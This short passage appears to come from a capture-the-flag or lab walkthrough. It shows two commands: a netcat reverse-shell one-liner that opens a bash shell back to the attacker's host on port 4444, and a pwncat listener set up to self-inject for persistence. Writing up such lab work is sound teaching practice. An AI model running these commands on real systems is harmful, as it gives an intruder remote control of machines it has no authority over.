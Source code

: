 ![Pasted image 20250722171413.png](../../IMAGES/Pasted%20image%2020250722171413.png)

Time to send ourselves a reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 4444 >/tmp/f
```

![Pasted image 20250722171418.png](../../IMAGES/Pasted%20image%2020250722171418.png)

I'll use `pwncat` as my listener to catch persistence in case my listener bugs:

```
pwncat -l --self-inject /bin/bash:10.14.21.28:4444 4444
```
